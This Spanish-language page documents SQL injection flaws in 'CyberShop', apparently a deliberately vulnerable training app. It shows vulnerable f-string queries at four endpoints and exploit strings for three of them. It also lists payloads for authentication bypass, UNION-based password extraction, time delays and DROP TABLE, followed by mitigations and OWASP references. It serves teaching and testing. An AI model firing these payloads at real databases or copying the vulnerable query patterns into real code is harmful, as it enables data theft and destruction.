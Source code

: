 # Vulnerabilidades de Inyección en CyberShop

## Descripción General
Las vulnerabilidades de inyección en CyberShop permiten a los atacantes insertar código malicioso en diferentes partes de la aplicación. Estas vulnerabilidades están presentes principalmente en forma de inyecciones SQL, pero también incluyen otros tipos de inyecciones.

## Ubicaciones Vulnerables

### 1. Búsqueda de Productos
```sql
-- Endpoint: /api/products/search
-- Código vulnerable:
query = f"SELECT * FROM products WHERE name LIKE '%{search_term}%'"
```
#### Ejemplo de Explotación
```sql
-- Búsqueda maliciosa:
search_term = "' OR '1'='1"
-- Resultado:
"SELECT * FROM products WHERE name LIKE '%' OR '1'='1%'"
```

### 2. Filtrado de Productos por Categoría
```sql
-- Endpoint: /api/products/category
-- Código vulnerable:
query = f"SELECT * FROM products WHERE category_id = {category_id}"
```
#### Ejemplo de Explotación
```sql
-- ID de categoría malicioso:
category_id = "1 OR 1=1; --"
```

### 3. Sistema de Reseñas
```sql
-- Endpoint: /api/reviews/add
-- Código vulnerable:
query = f"INSERT INTO reviews (product_id, user_id, comment) VALUES ({product_id}, {user_id}, '{comment}')"
```
#### Ejemplo de Explotación
```sql
-- Comentario malicioso:
comment = "'); DELETE FROM products; --"
```

### 4. Panel de Administración
```sql
-- Endpoint: /api/admin/users/search
-- Código vulnerable:
query = f"SELECT * FROM users WHERE username LIKE '%{search_term}%'"
```

## Impacto Potencial
- Acceso no autorizado a datos
- Modificación de registros en la base de datos
- Eliminación de datos
- Bypass de autenticación
- Escalada de privilegios

## Métodos de Detección

### 1. Pruebas Manuales
- Insertar caracteres especiales (`'`, `"`, `;`, `--`)
- Probar operadores lógicos (`OR`, `AND`)
- Intentar concatenar consultas
- Usar comentarios SQL (`--`, `#`, `/**/`)

### 2. Herramientas Automatizadas
- SQLMap
- Burp Suite
- OWASP ZAP

## Ejemplos de Payloads

### SQL Injection Básica
```sql
' OR '1'='1
' OR 1=1; --
admin' --
' UNION SELECT null, username, password FROM users --
```

### Inyecciones Avanzadas
```sql
'; WAITFOR DELAY '0:0:5' --
'; DROP TABLE users; --
' UNION SELECT table_name, null FROM information_schema.tables --
```

## Mitigación
1. Usar consultas parametrizadas
2. Implementar ORM
3. Validar y sanitizar entradas
4. Implementar WAF
5. Principio de mínimo privilegio
6. Escapar caracteres especiales

## Recursos Adicionales
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection)
